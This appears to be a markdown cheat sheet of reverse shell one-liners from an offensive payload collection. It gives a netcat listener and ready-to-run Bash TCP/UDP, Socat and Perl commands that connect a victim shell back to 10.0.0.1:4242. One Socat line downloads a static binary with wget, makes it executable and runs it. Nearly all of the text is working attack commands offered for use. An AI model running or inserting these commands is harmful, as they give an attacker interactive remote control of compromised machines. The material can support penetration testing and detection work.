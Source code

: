 ## Server
nc -lvnp 4444

## Client
### Bash TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

### Bash UDP

```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

### Socat

```powershell
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```powershell
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
